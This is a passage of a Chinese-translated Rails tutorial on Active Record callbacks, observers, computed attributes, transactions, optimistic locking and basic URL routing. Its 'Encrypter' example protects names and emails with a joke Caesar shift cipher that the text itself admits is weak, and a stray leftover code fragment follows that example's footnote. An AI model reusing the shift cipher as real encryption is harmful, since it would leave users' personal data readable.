要让你的代码在回调期间执行，你需要编写一个处理器（handler）并将其与相应的回调关联起来。

实现回调有两种基本方式。

首先，你可以直接定义回调实例方法。例如，如果你想处理 *before save* 事件，你可以这样写：

```ruby
class Order < ActiveRecord::Base
  # ..
  def before_save
    self.payment_due ||= Time.now + 30.days
  end
end
```

定义回调的第二种基本方式是声明处理器。处理器可以是一个方法或一个代码块。¹ 你可以使用以事件命名的类方法将处理器与特定事件关联起来。要关联一个方法，需将其声明为 private 或 protected，并将其名称作为符号传递给处理器声明。要指定一个代码块，只需将其添加在声明之后即可。这个代码块会接收模型对象作为参数。

```ruby
class Order < ActiveRecord::Base

  before_validation :normalize_credit_card_number

  after_create do |order|
    logger.info "Order #{order.id} created"
  end

  protected

  def normalize_credit_card_number
    self.cc_number.gsub!(/\W/, '')
  end
end
```

¹ 处理器也可以是一个包含要执行代码的字符串，但这种做法已被弃用。

你可以为同一个回调指定多个处理器。除非某个处理器返回 `false`（并且必须是实际的 `false` 值），否则它们通常会按照指定的顺序被调用。如果返回 `false`，回调链会提前中断。

由于性能优化的原因，为 `after_find` 和 `after_initialize` 事件定义回调的唯一方式是将它们定义为方法。如果你尝试使用第二种技术将它们声明为处理器，它们会被静默忽略。（有时人们会问为什么这样做。Rails 需要使用反射来确定是否有要调用的回调。在执行实际的数据库操作时，这样做的成本通常与数据库开销相比并不显著。然而，一个数据库 `select` 语句可能会返回数百行数据，并且每个行都需要调用这两个回调。这会显著降低查询速度。Rails 团队决定在这种情况下，性能优先于一致性。）

#### 为记录添加时间戳

`before_create` 和 `before_update` 回调的一个潜在用途是为行添加时间戳。

```ruby
class Order < ActiveRecord::Base
  def before_create
    self.order_created ||= Time.now
  end
  def before_update
    self.order_modified = Time.now
  end
end
```

然而，Active Record 可以省去你做这件事的麻烦。如果你的数据库表有一个名为 `created_at` 或 `created_on` 的列，它将自动设置为该行创建时间的时间戳。同样，名为 `updated_at` 或 `updated_on` 的列将设置为最新修改的时间戳。这些时间戳默认情况下是本地时间；要使它们成为 UTC（也称为 GMT），请在代码中包含以下行（对于独立的 Active Record 应用程序是内联代码，对于完整的 Rails 应用程序则在环境文件中）。

```ruby
ActiveRecord::Base.default_timezone = :utc
```

要完全禁用此行为，请使用：

```ruby
ActiveRecord::Base.record_timestamps = false
```

#### 回调对象

作为在模型类中直接指定回调处理器的一种变体，你可以创建单独的处理器类来封装所有的回调方法。这些处理器可以在多个模型之间共享。处理器类只是一个定义了回调方法（before_save、after_create 等）的类。在 `app/models` 目录下创建这些处理器类的源文件。

在使用该处理器的模型对象中，你需要创建这个处理器类的实例，并将该实例传递给各个回调声明。几个例子将使这一点更加清晰。

如果我们的应用程序在多处使用信用卡，我们可能希望在多个方法之间共享我们的 `normalize_credit_card_number` 方法。为此，我们将该方法提取到它自己的类中，并以我们希望它处理的事件命名。此方法将接收一个参数，即生成回调的模型对象。

```ruby
class CreditCardCallbacks

  # Normalize the credit card number
  def before_validation(model)
    model.cc_number.gsub!(/\-\w/, '')
  end
end
```

现在，在我们的模型类中，我们可以安排调用这个共享回调。

```ruby
class Order < ActiveRecord::Base
  before_validation CreditCardCallbacks.new
  # ...
end
```

```ruby
class Subscription < ActiveRecord::Base
  before_validation CreditCardCallbacks.new
  # ...
end
```

在这个例子中，处理器类假设信用卡号存储在一个名为 `cc_number` 的模型属性中；`Order` 和 `Subscription` 都会有这个名称的属性。但我们可以将这个想法泛化，使处理器类不太依赖于使用它的类的实现细节。

例如，我们可以创建一个通用的加密和解密处理器。这可以用于在将指定字段存储到数据库之前对其进行加密，并在从数据库中读取行时对其进行解密。你可以将其作为回调处理器包含在任何需要此功能的模型中。

该处理器需要在模型数据写入数据库之前加密²指定的一组属性。因为我们的应用程序需要处理这些属性的纯文本版本，所以它需要在保存完成后再次解密它们。当从数据库中读取一行数据到模型对象时，它也需要解密数据。这些要求意味着我们必须处理 `before_save`、`after_save` 和 `after_find` 事件。因为我们需要在保存后和找到新行时都解密数据库行，我们可以通过将 `after_find` 方法别名为 `after_save` 来节省代码——同一个方法将拥有两个名称。

```ruby
class Encrypter

    # We're passed a list of attributes that should
    # be stored encrypted in the database
    def initialize(attrs_to_manage)
        @attrs_to_manage = attrs_to_manage
    end

    # Before saving or updating, encrypt the fields using the NSA and
    # DHS approved Shift Cipher
    def before_save(model)
        @attrs_to_manage.each do |field|
            model[field].tr!("a-z", "b-za")
        end
    end

    # After saving, decrypt them back
    def after_save(model)
        @attrs_to_manage.each do |field|
            model[field].tr!("b-za", "a-z")
        end
    end

    # Do the same after finding an existing record
    alias_method :after_find, :after_save
end

class Order < ActiveRecord::Base
    encrypter = Encrypter.new(:name, :email)

    before_save encrypter
    after_save  encrypter
    after_find  encrypter
end
```

> 2. 我们这里的示例使用了简单的加密——在实际使用此类之前，你可能需要加强其安全性。


def after_find
  end
end
```

我们创建了一个新的 `Encrypter` 对象，并将其挂接到 `before_save`、`after_save` 和 `after_find` 事件上。这样，就在订单被保存之前，加密器中的 `before_save` 方法会被调用，以此类推。

那么，我们为什么要定义一个空的 `after_find` 方法呢？请记住我们之前提到的，出于性能考虑，`after_find` 和 `after_initialize` 的处理方式很特殊。这种特殊处理的后果之一是，除非模型类中存在一个实际的 `after_find` 方法，否则 Active Record 不知道要调用 `after_find` 处理程序。我们必须定义一个空的占位符，才能让 `after_find` 处理生效。

这一切都很好，但每个想使用我们加密处理程序的模型类，都需要包含大约八行代码，就像我们之前在 `Order` 类中所做的那样。我们可以做得更好。我们将定义一个执行所有工作的辅助方法，并让这个辅助方法对所有 Active Record 模型可用。为此，我们将把它添加到 `ActiveRecord::Base` 类中。

```
class ActiveRecord::Base
  def self.encrypt(*attr_names)
    encrypter = Encrypter.new(attr_names)

    before_save encrypter
    after_save  encrypter
    after_find encrypter

    define_method(:after_find) { }
  end
end
```

有了这个，我们现在只需一次调用，就能为任何模型类的属性添加加密功能。

```
class Order < ActiveRecord::Base
  encrypt(:name, :email)
end
```

一个简单的驱动程序让我们可以对此进行实验。

```
o = Order.new
o.name = "Dave Thomas"
o.address = "123 The Street"
o.email   = "dave@pragprog.com"
o.save
puts o.name

o = Order.find(o.id)
puts o.name
```

在控制台中，我们看到模型对象中客户的姓名（明文）。

```
ar> ruby encrypt.rb
Dave Thomas
Dave Thomas
```

然而，在数据库中，姓名和电子邮件地址已被我们工业强度的加密所掩盖。

```
ar> mysql -urailsuser -prailspw railsdb
mysql> select * from orders;
+----+-----------+----------------------+---------------+----------+--------------+
| id | name      | email                | address       | pay_type | when_shipped |
+----+-----------+----------------------+---------------+----------+--------------+
|  1 | Dbwf Tipnbt | ebwf@qsbhqsph.dpn | 123 The Street |          | NULL         |
+----+-----------+----------------------+---------------+----------+--------------+
1 row in set (0.00 sec)
```

##### 观察者

回调是一种很好的技术，但有时会导致模型类承担与模型本质无关的责任。例如，在第375页，我们创建了一个在订单创建时生成日志消息的回调。该功能并不真正属于基本的 `Order` 类——我们之所以把它放在那里，是因为那是回调执行的地方。

Active Record *观察者*克服了这个限制。观察者透明地将自己链接到一个模型类中，就像它是模型的一部分一样注册回调，而无需对模型本身进行任何更改。这是用观察者编写的我们之前的日志示例。

```
Download e1/ar/observer.rb

class OrderObserver < ActiveRecord::Observer
  def after_save(an_order)
    an_order.logger.info("Order ##{an_order.id} created")
  end
end

OrderObserver.instance
```

当 `ActiveRecord::Observer` 被子类化时，它会查看新类的名称，从末尾去掉 "Observer" 这个词，并假定剩下的部分是要观察的模型类的名称。在我们的例子中，我们将观察者类命名为 `OrderObserver`，所以它自动挂接到了 `Order` 模型上。

有时这个约定会失效。当它失效时，观察者类可以使用 `observe` 方法显式列出它想要观察的一个或多个模型。

```
Download el/ar/observer.rb
class AuditObserver < ActiveRecord::Observer
  observe Order, Payment, Refund
  def after_save(model)
    model.logger.info("#{model.class.name} #{model.id} created")
  end
end
AuditObserver.instance
```

在这两个例子中，我们都必须创建观察者的实例——仅仅定义观察者的类并不会启用该观察者。对于独立的 Active Record 应用程序，你需要在初始化过程中的某个方便位置调用 `instance` 方法。如果你在编写 Rails 应用程序，你会改为在控制器中使用 `observer` 指令。

```
class StoreController < ApplicationController
  observer :stock_control_observer
  # ...
end
```

按照约定，观察者的源文件位于 `app/models` 目录下。

从某种意义上说，观察者给 Rails 带来了类似于 Java 等语言中第一代面向切面编程的许多好处。它们允许你将行为注入到模型类中，而无需更改这些类中的任何代码。

### 19.3 高级属性

当我们最初介绍 Active Record 时，我们说过 Active Record 对象具有与它所封装的数据库表中列相对应的属性。我们接着说这并不完全正确。这是事情的全貌。

当 Active Record 首次使用一个特定的模型时，它会访问数据库并确定相应表的列集。然后它构建一组 `Column` 对象。这些对象可以使用 `columns` 类方法访问，而特定列的 `Column` 对象可以使用 `columns_hash` 方法检索。`Column` 对象编码了数据库列的名称、类型和默认值。

当 Active Record 从数据库读取信息时，它会构造一个 SQL select 语句。当执行时，select 语句返回零行或多行数据。Active Record 为每一行构建一个新的模型对象，将行数据加载到一个哈希中，它称之为 *attribute* 数据。哈希中的每个条目对应于原始查询中的一个项。所使用的键值与结果集中该项的名称相同。

大多数时候，我们会使用标准的 Active Record 查找器方法从数据库检索数据。这些方法返回所选行的所有列。因此，每个返回的模型对象中的 attributes 哈希将包含每个列的条目，其中键是列名，值是列数据。

```
result = LineItem.find(:first)
p result.attributes
{"order_id"=>13,
 "quantity"=>1,
 "product_id"=>27,
 "id"=>34,
 "unit_price"=>29.95}
```

通常，我们不会通过 attributes 哈希访问此数据。相反，我们使用属性方法。

```
result = LineItem.find(:first)
p result.quantity           #=> 1
p result.unit_price        #=> 29.95
```

但如果我们运行一个返回值与表中的列不对应的查询会怎样呢？例如，我们可能希望在应用程序中运行以下查询。

```
select quantity, quantity*unit_price from line_items;
```

如果我们手动在数据库上运行此查询，可能会看到如下内容。

```
mysql> select quantity, quantity*unit_price from line_items;
+----------+----------------------+
| quantity | quantity*unit_price  |
+----------+----------------------+
|        1 |               29.95 |
|        2 |               59.90 |
|        1 |               44.95 |
|        ...
```

请注意，结果集的列标题反映了我们给 *select* 语句的项的名称。Active Record 在填充 attributes 哈希时使用这些列标题。我们可以使用 Active Record 的 *find_by_sql* 方法运行相同的查询，并查看生成的 attributes 哈希。

```
result = LineItem.find_by_sql("select quantity, quantity*unit_price " +
                           "from line_items")
p result[0].attributes
```

输出显示，列标题已被用作 attributes 哈希中的键。

```
{"quantity*unit_price"=>"29.95",
 "quantity"=>1}
```

请注意，计算列的值是一个字符串。Active Record 知道我们表中列的类型，但许多数据库不返回计算列的类型信息。在这个例子中，我们使用的是 MySQL，它不提供类型信息，因此 Active Record 将值保留为字符串。如果我们使用的是 Oracle，我们会得到一个 Float 返回，因为 OCI 接口可以提取结果集中所有列的类型信息。

使用键 `quantity*price` 访问计算属性并不特别方便，因此通常使用 `as` 限定符在结果集中重命名列。

```
result = LineItem.find_by_sql("select quantity,
                         quantity*unit_price as total_price " +
                                      "  from line_items")
p result[0].attributes
```

这将产生

```
{"total_price"=>"29.95",
 "quantity"=>1}
```

属性 `total_price` 更容易使用。

```
result.each do |line_item|
  puts "Line item #{line_item.id}:  #{line_item.total_price}"
end
```

不过，请记住，这些计算列的值将以字符串形式存储在 attributes 哈希中。如果你尝试类似这样的操作，将会得到意想不到的结果：

```
TAX_RATE = 0.07
# ...
sales_tax = line_item.total_price * TAX_RATE
```

也许令人惊讶的是，上例中的代码将 `sales_tax` 设置为空字符串。`total_price` 的值是一个字符串，而字符串的 `*` 运算符会重复其内容。因为 `TAX_RATE` 小于 1，所以内容被重复零次，导致一个空字符串。

一切并未失去！我们可以覆盖默认的 Active Record 属性访问器方法，并为我们的计算字段执行所需的类型转换。

```
class LineItem < ActiveRecord::Base
  def total_price
    Float(read_attribute("total_price"))
  end
end
```


请注意，我们是通过 `read_attribute` 方法来访问属性的内部值，而不是直接访问属性哈希。`read_attribute` 方法了解数据库列的类型（包括包含序列化 Ruby 数据的列），并在需要时执行类型转换。这在我们当前的示例中可能不是特别有用，但当我们探讨提供外观列（facade columns）的方法时，它就变得更有用了。

#### 外观列

有时我们使用的模式中，某些列的格式并非最便捷的。由于某种原因（也许是因为我们正在使用遗留数据库，或者因为其他应用程序依赖该格式），我们不能直接更改模式。相反，我们的应用程序必须以某种方式来处理它。如果我们能以某种方式设置一个外观，并假装列数据是我们想要的样子，那就好了。

事实证明，我们可以通过覆盖 Active Record 提供的默认属性访问器方法来实现这一点。例如，让我们想象一下我们的应用程序使用了一个遗留的 `product_data` 表——这个表非常古老，以至于产品尺寸是以腕尺（cubits）为单位存储的。³ 在我们的应用程序中，我们更愿意以英寸为单位进行处理。⁴ 因此，让我们定义一些执行必要转换的访问器方法。

```ruby
class ProductData < ActiveRecord::Base
  CUBITS_TO_INCHES = 18
  def length
    read_attribute("length") * CUBITS_TO_INCHES
  end
  def length=(inches)
    write_attribute("length", Float(inches) / CUBITS_TO_INCHES)
  end
end
```

### 19.4 事务

数据库事务将一系列更改组合在一起，使得要么所有更改都被应用，要么所有更改都不被应用。需要事务的经典例子（也是 Active Record 自身文档中使用的例子）是在两个银行账户之间转账。基本逻辑很简单。

```ruby
account1.deposit(100)
account2.withdraw(100)
```

³ 腕尺被定义为从你的肘部到最长手指尖的距离。由于这显然是主观的，埃及人根据当时统治的国王制定了标准的皇家腕尺。他们甚至有一个标准机构，用一块花岗岩石头测量并标记了主腕尺 (http://www.ncsl.org/misc/cubit.cfm)。

⁴ 当然，英寸也是一种遗留的度量单位，但让我们不要在这里争论这一点。

然而，我们必须小心。如果存款成功，但出于某种原因取款失败（也许客户透支了）会怎样？我们会在账户1的余额中增加100美元，而没有从账户2中相应地扣除。实际上，我们凭空创造了100美元。

事务来救场了。事务有点像“三个火枪手”及其座右铭“人人为我，我为人人”。在事务的范围内，要么每条 SQL 语句都成功，要么它们都不起作用。换一种说法，如果任何语句失败，整个事务对数据库都没有影响。⁵

在 Active Record 中，我们使用 `transaction` 方法在特定数据库事务的上下文中执行一个代码块。在代码块结束时，事务会提交，更新数据库，*除非*在代码块中引发异常，在这种情况下，所有更改都会被回滚，数据库保持不变。因为事务存在于数据库连接的上下文中，所以我们必须以 Active Record 类作为接收者来调用它们。因此，我们可以这样写：

```ruby
Account.transaction do
  account1.deposit(100)
  account2.withdraw(100)
end
```

让我们试验一下事务。我们将从创建一个新的数据库表开始。（确保你的数据库支持事务，否则这段代码对你来说将无法工作。）

```ruby
create_table :accounts, :force => true do |t|
  t.column :number, :string
  t.column :balance, :decimal, :precision => 10, :scale => 2, :default => 0
end
```

接下来，我们将定义一个简单的银行账户类。这个类定义了向账户存款和从账户取款的实例方法。它还提供了一些基本的验证——对于这种特定类型的账户，余额永远不能为负。

```ruby
class Account < ActiveRecord::Base
  def withdraw(amount)
    adjust_balance_and_save(-amount)
  end
```

> ⁵ 事务实际上比这更微妙。它们表现出所谓的 ACID 属性：它们是原子的（Atomic），确保一致性（Consistency），在隔离（Isolation）中工作，并且它们的效果是持久的（Durable）（当事务提交时，它们会变成永久性的）。如果你计划将一个数据库应用程序上线，值得找一本好的数据库书籍来阅读有关事务的内容。

```ruby
def deposit(amount)
  adjust_balance_and_save(amount)
end

private

def adjust_balance_and_save(amount)
  self.balance += amount
  save!
end

def validate    # 验证由 Active Record 调用
  errors.add(:balance, "is negative") if balance < 0
end
end
```

让我们看看辅助方法 `adjust_balance_and_save`。第一行只是更新了 balance 字段。然后该方法调用 `save!` 来保存模型数据。（记住，如果对象无法保存，`save!` 会引发异常——我们使用异常来向事务发出信号，表示出了问题。）

所以现在让我们编写在两个账户之间转账的代码。这非常直接。

```ruby
peter = Account.create(:balance => 100, :number => "12345")
paul   = Account.create(:balance => 200, :number => "54321")
```

```ruby
Account.transaction do
  paul.deposit(10)
  peter.withdraw(10)
end
```

我们检查数据库，果然，钱已经转过去了。

```
mysql> select * from accounts;
+----+--------+---------+
| id | number | balance |
+----+--------+---------+
|  5 | 12345  |   90.00 |
|  6 | 54321  |  210.00 |
+----+--------+---------+
```

现在让我们来点刺激的。如果我们重新开始，但这次尝试转账350美元，我们会让彼得陷入红字（透支），这是验证规则不允许的。让我们试试看。

```ruby
peter = Account.create(:balance => 100, :number => "12345")
paul   = Account.create(:balance => 200, :number => "54321")
```

```ruby
Account.transaction do
  paul.deposit(350)
  peter.withdraw(350)
end
```

运行时，我们会在控制台看到一个异常报告。

```
.../validations.rb:736:in 'save!': Validation failed: Balance is negative
from transactions.rb:46:in 'adjust_balance_and_save'
  :        :        :
from transactions.rb:80
```

查看数据库，我们可以看到数据保持不变。

```
mysql> select * from accounts;
+----+--------+---------+
| id | number | balance |
+----+--------+---------+
|  7 |  12345 |  100.00 |
|  8 |  54321 |  200.00 |
+----+--------+---------+
```

然而，这里有一个陷阱在等着你。事务保护了数据库免于变得不一致，但我们的模型对象呢？为了看看它们发生了什么，我们必须安排捕获异常以允许程序继续运行。

```ruby
peter = Account.create(:balance => 100, :number => "12345")
paul  = Account.create(:balance => 200, :number => "54321")
```

```ruby
begin
  Account.transaction do
    paul.deposit(350)
    peter.withdraw(350)
  end
rescue
  puts "Transfer aborted"
end

puts "Paul has #{paul.balance}"
puts "Peter has #{peter.balance}"
```

我们看到的结果有点令人惊讶。

```
Transfer aborted
Paul has 550.0
Peter has -250.0
```

尽管数据库毫发无损，但我们的模型对象无论如何都被更新了。这是因为 Active Record 没有跟踪各个对象的前后状态——事实上它无法跟踪，因为它没有简单的方法知道哪些模型参与了事务。我们可以通过将它们显式地作为参数列出给 transaction 方法来纠正这一点。

```ruby
peter = Account.create(:balance => 100, :number => "12345")
paul   = Account.create(:balance => 200, :number => "54321")
```

```ruby
begin
  Account.transaction(peter, paul) do
    paul.deposit(350)
    peter.withdraw(350)
  end
rescue
  puts "Transfer aborted"
end

puts "Paul has #{paul.balance}"
puts "Peter has #{peter.balance}"
```

这次我们看到模型在最后没有变化。

```
Transfer aborted
Paul has 200.0
Peter has 100.0
```

我们可以通过将转账功能移入 `Account` 类来稍微整理一下这段代码。因为转账涉及两个独立的账户，并且不是由其中任何一个驱动的，我们将把它变成一个类方法，该方法接受两个账户对象作为参数。注意我们如何在类方法内部简单地调用 `transaction` 方法。

```ruby
class Account < ActiveRecord::Base
  def self.transfer(from, to, amount)
    transaction(from, to) do
      from.withdraw(amount)
      to.deposit(amount)
    end
  end
end
```

定义了这个方法后，我们的转账就整洁多了。

```ruby
peter = Account.create(:balance => 100, :number => "12345")
paul   = Account.create(:balance => 200, :number => "54321")
```

```ruby
Account.transfer(peter, paul, 350) rescue puts "Transfer aborted"
```

```ruby
puts "Paul has #{paul.balance}"
puts "Peter has #{peter.balance}"
```

#### 内置事务

当我们讨论父表和子表时，我们说过Active Record在保存父行时会负责保存所有相关的子行。这需要执行多个SQL语句（一条用于父行，每条用于任何更改或新增的子行）。显然，这个更改应该是原子的，但直到现在，我们在保存这些相互关联的对象时并没有使用事务。我们是否疏忽了？

幸运的是，没有。Active Record足够智能，可以将与特定`save`相关的所有更新和插入（以及与`destroy`相关的删除）包装在一个事务中；要么全部成功，要么没有数据被永久写入数据库。只有当你自己管理多个SQL语句时，才需要显式事务。

#### 多数据库事务

你如何在Rails中跨多个不同数据库同步事务？

目前的答案是，你不能。Rails不支持分布式两阶段提交（这是让数据库相互同步的协议的行话术语）。

然而，你可以（几乎）通过嵌套事务来模拟这种效果。记住，事务与数据库连接相关联，而连接又与模型相关联。因此，如果`accounts`表在一个数据库中，而`users`在另一个数据库中，你可以使用如下方式模拟一个跨越两者的事务：

```ruby
User.transaction(user) do
  Account.transaction(account) do
    account.calculate_fees
    user.date_fees_last_calculated = Time.now
    user.save
    account.save
  end
end
```

这只是一个近似的解决方案。用户数据库中的提交可能会失败（也许磁盘已满），但到那时，账户数据库中的提交可能已经成功，我们就失去了数据一致性。

[插入图片：img/a19e9610e4114faa55c2d3518a43d08f_389_0.png]

图19.2：竞争条件：第二次更新覆盖第一次

`accounts`数据库中的事务已经完成，表已更新。这将使整个事务处于不一致状态。为每个特定情况分别编码来解决这些问题是可能的（尽管不太愉快），但目前，如果你正在编写同时更新多个数据库的应用程序，可能不应该依赖Active Record。

#### 乐观锁

在多个进程访问同一数据库的应用程序中，如果另一个进程更新了底层数据库行，一个进程持有的数据可能变得过时。

例如，两个进程可能获取与特定账户相对应的行。在几秒钟内，两者都去更新该余额。每个进程都加载一个具有初始行内容的Active Record模型对象。在不同的时间，他们各自使用模型的本地副本来更新底层行。结果就是一个*竞争条件*，其中最后一个更新行的人获胜，第一个人的更改丢失。如图19.2所示。

这个问题的一个解决方案是锁定被更新的表或行。通过阻止其他人访问或更新它们，锁定克服了并发问题，但这是一个相当粗暴的解决方案。它假设会出问题，因此提前锁定。因此，这种方法通常被称为*悲观锁*。如果你需要确保跨多个用户请求的一致性，悲观锁对于Web应用程序是不可行的，因为很难以一种不会使数据库陷入停顿的方式来管理锁。

*乐观锁*不采用显式锁。相反，就在将更新后的数据写回行之前，它会检查确保没有其他人已经更改了该行。在Rails实现中，每行包含一个版本号。每当更新一行时，版本号就会递增。当你从应用程序内部进行更新时，Active Record会将表中行的版本号与执行更新的模型的版本号进行比较。如果两者不匹配，它将放弃更新并抛出异常。

默认情况下，任何包含名为`lock_version`的整数列的表都会启用乐观锁。你应该确保此列对于新行初始化为零，但除此之外你应该让它保持原样——Active Record为你管理细节。

让我们看看乐观锁的实际应用。我们将创建一个名为`counters`的表，其中包含一个简单的`count`字段以及`lock_version`列。（注意`lock_version`列上的`:default`设置。）

```ruby
create_table :counters, :force => true do |t|
  t.column :count, :integer
  t.column :lock_version, :integer, :default => 0
end
```

然后我们将在表中创建一行，将该行读入两个单独的模型对象，并尝试从每个对象更新它。

```ruby
class Counter < ActiveRecord::Base
end

Counter.delete_all
Counter.create(:count => 0)

count1 = Counter.find(:first)
count2 = Counter.find(:first)

count1.count += 3
count1.save

count2.count += 4
count2.save
```

当我们运行这个时，我们看到一个异常。Rails中止了`count2`的更新，因为它持有的值已经过时。

```
/opt/local/lib/ruby/gems/1.8/gems/activerecord-1.14.2/lib/active_record/locking.rb:47:
    in `update_without_callbacks': Attempted to update a stale object
    (ActiveRecord::StaleObjectError)
```

如果你使用乐观锁，你需要在应用程序中捕获这些异常。

你可以使用`ActiveRecord::Base.lock_optimistically = false`来禁用乐观锁。

你可以更改为跟踪版本号而使用的列的名称，按模型进行设置。

```ruby
class Change < ActiveRecord::Base
  set_locking_column("generation_number")
  # ...
end
```

# 第20章

## ActionController：路由和URL

Action Pack位于Rails应用程序的核心。它由两个Ruby模块组成：`ActionController`和`ActionView`。它们共同为处理传入请求和生成传出响应提供支持。在本章和下一章中，我们将研究`ActionController`及其在Rails中的工作方式。在接下来的两章中，我们将处理`ActionView`。

当我们研究Active Record时，我们将其视为一个独立的库：你可以在非Web Ruby应用程序中使用Active Record。Action Pack则不同。虽然可以直接将其用作框架，但你可能不会这样做。相反，你将利用Rails提供的紧密集成。诸如Action Controller、Action View和Active Record之类的组件处理请求的处理，Rails环境将它们编织成一个连贯（且易于使用）的整体。因此，我们将在Rails的上下文中描述Action Controller。让我们从研究Rails应用程序如何处理请求开始。然后我们将深入探讨路由和URL处理的细节。第21章*Action Controller和Rails*将研究如何在控制器中编写代码。

### 20.1 基础知识

简单来说，一个Web应用程序接受来自浏览器的传入请求，处理它，并发送响应。

首先想到的问题是，应用程序如何知道如何处理传入请求？购物车应用程序将收到显示目录、将商品添加到购物车、结账等请求。它如何将这些请求路由到适当的代码？

Rails在请求URL中编码此信息，并使用一个称为*路由*的子系统来确定应对该请求执行什么操作。实际过程非常灵活，但最终Rails会确定控制器的名称，

*控制器*负责处理这个特定的请求，以及一系列其他请求参数。通常，这些附加参数中的一个会标识要在目标控制器中调用的*操作*。

例如，发往我们购物车应用的请求可能类似于 `http://my.shop.com/store/show_product/123`。应用会将其解释为一个请求，该请求要求在 `StoreController` 类中调用 `show_product` 方法，并显示 id 为 123 的产品详细信息到我们的购物车中。

你不必使用 `controller/action/id` 风格的 URL。一个博客应用可以配置成在请求 URL 中编码文章日期。例如，访问 `http://my.blog.com/blog/2005/07/04`，它可能会调用 `Articles` 控制器的 `display` 操作，以显示 2005 年 7 月 4 日的文章。我们稍后会描述这种神奇的映射是如何发生的。

一旦控制器被识别出来，就会创建一个新的实例，并调用其 `process` 方法，传入请求详细信息和一个响应对象。然后，控制器会调用一个与操作同名的方法（或者，如果找不到与操作同名的方法，则调用一个名为 `method_missing` 的方法）。这就是我们在第 48 页图 4.3 中首次看到的分发机制。操作方法协调处理请求。如果操作方法在没有显式渲染任何内容的情况下返回，控制器会尝试渲染一个以操作命名的模板。如果控制器找不到要调用的操作方法，它会立即尝试渲染模板——你不需要操作方法来显示模板。

### 20.2 路由请求

到目前为止，在本书中我们还没有担心 Rails 如何将诸如 `store/add_to_cart/123` 之类的请求映射到特定的控制器和操作。现在让我们深入探讨这个问题。

`rails` 命令会生成应用程序的初始文件集。其中一个文件是 `config/routes.rb`。它包含该应用程序的路由信息。如果你查看该文件的默认内容（忽略注释），你会看到以下内容。

```
ActionController::Routing::Routes.draw do |map|
  map.connect ':controller/service.wsdl', :action => 'wsdl'
  map.connect ':controller/:action/:id'
end
```

`Routing` 组件绘制了一张地图，让 Rails 能够将外部 URL 连接到应用程序的内部。每个 `map.connect` 声明都指定了一条连接外部 URL 和内部程序代码的路由。让我们看看第二个 `map.connect` 行。字符串 `':controller/:action/:id'` 充当一个模式，与请求 URL 的路径部分进行匹配。在这种情况下，该模式将匹配任何路径包含三个组件的 URL。（这实际上并不完全正确，但我们马上会澄清。）第一个组件将被分配给参数 :controller，第二个给 :action，第三个给 :id。向这个模式输入路径为 store/add_to_cart/123 的 URL，最终会得到参数

```
@params = {   :controller => 'store',
           :action     => 'add_to_cart',
           :id         => 123 }
```

基于此，Rails 将在 store 控制器中调用 add_to_cart 方法。:id 参数的值将为 123。

#### 操作路由

一开始，路由可能有点令人生畏。当你开始定义越来越多复杂的路由时，你会开始遇到一个问题——你如何知道你的路由是按照你预期的方式工作的？

显然，一种方法是启动你的应用程序并在浏览器中输入 URL。然而，我们可以做得更好。对于路由的临时实验，我们可以使用 script/console 命令。（对于更正式的验证，我们可以编写单元测试，正如我们将在第 423 页开始看到的。）我们现在将研究如何操作路由，因为这将在我们稍后查看路由的所有功能时派上用场。

应用程序的路由定义被加载到 ActionController::Routing 模块中的一个 RouteSet 对象中。有点令人困惑的是，我们可以通过 Routes 常量（结果发现它并非真正的常量）来访问它。具体来说，我们可以使用 script/console 来访问路由定义，这让我们可以以交互方式操作它们。为了节省一些输入，我们将把这个 RouteSet 对象的引用分配给一个新的局部变量 rs。

```
depot> ruby script/console
>> rs = ActionController::Routing::Routes
=> #<ActionController::Routing::RouteSet:0x13cfb70.....
```

忽略将显示的许多行输出——RouteSet 是一个相当复杂的对象。幸运的是，它有一个简单（且强大）的接口。让我们首先检查为应用程序定义的路由。我们通过要求路由集将其每个路由转换为字符串来实现，这会格式化得很好。通过使用 puts 显示结果，我们将每条路由显示在单独的一行上。

```
>> puts rs.routes
ANY    /:controller/service.wsdl/        {:action=>"wsdl"}
ANY    /:controller/:action/:id/          {}
=> nil
```

以 ANY 开头的行显示了任何新 Rails 应用程序（包括 Depot）都附带的两条默认路由。最后一行，=> nil，是 script/console 命令显示的 puts 方法的返回值。

每条显示的路由有三个组成部分。第一个告诉路由这个路由适用于哪个 HTTP 动词。默认的 ANY 意味着无论动词是什么，该路由都将被应用。我们稍后将看到如何为 GET、POST、HEAD 等创建不同的路由。

下一个元素是路由匹配的模式。它对应于我们在 routes.rb 文件中传递给 map.connect 调用的字符串。

最后一个元素显示了修改路由行为的可选参数。我们稍后将讨论这些参数。

使用 recognize_path 方法查看路由将如何解析特定的传入路径。

```
>> rs.recognize_path "/store"
=> {:action=>"index", :controller=>"store"}

>> rs.recognize_path "/store/add_to_cart/1"
=> {:action=>"add_to_cart", :controller=>"store", :id=>"1"}

>> rs.recognize_path "/store/service.wsdl"
=> {:action=>"wsdl", :controller=>"store"}
```

你也可以使用 generate 方法查看路由将为特定参数集创建什么 URL。这类似于在应用程序内部使用 url_for 方法。¹

```
>> rs.generate :controller => :store
=> "/store"
>> rs.generate :controller => :store, :id => 123
=> "/store/index/123"
```

所有这些示例都使用了应用程序的路由，并依赖于应用程序实现了请求路径中引用的所有控制器——路由会检查控制器是否有效，因此不会解析找不到控制器的请求。例如，我们的 Depot 应用程序没有 coupon 控制器。如果我们尝试解析使用该控制器的传入路由，该路径将不会被识别。

```
>> rs.recognize_path "/coupon/show/1"
ActionController::RoutingError: no route found to match "/coupon/show/1" with {}
```

¹ 值得强调这一点。在应用程序内部，你将使用诸如 url_for 和 link_to 之类的方法来生成基于路由的 URL。我们在这里使用 generate 方法的唯一原因是它在控制台会话的上下文中有效。

你可以告诉路由假装你的应用程序包含尚未编写的控制器，使用 `use_controllers` 方法。

```
>> ActionController::Routing.use_controllers! ["store", "admin", "coupon"]
=> ["store", "admin", "coupon"]
```

然而，为了让此更改生效，你需要重新加载路由的定义。

```
>> load "config/routes.rb"
=> true
>> rs.recognize_path "/coupon/show/1"
=> {:action=>"show", :controller=>"coupon", :id=>"1"}
```

你可以使用这个技巧来测试尚未成为应用程序一部分的路由方案：创建一个新的 Ruby 源文件，其中包含通常位于 `routes.rb` 配置文件中的 `Routes.draw` 代码块，并使用 `load` 加载这个新文件。

##### 使用 map.connect 定义路由

`map.connect` 接受的模式简单而强大。

-   组件由正斜杠字符和句点分隔。模式中的每个组件匹配 URL 中的一个或多个组件。模式中的组件按顺序与 URL 匹配。
-   形式为 `:name` 的模式组件将参数 `name` 设置为 URL 中相应位置的值。
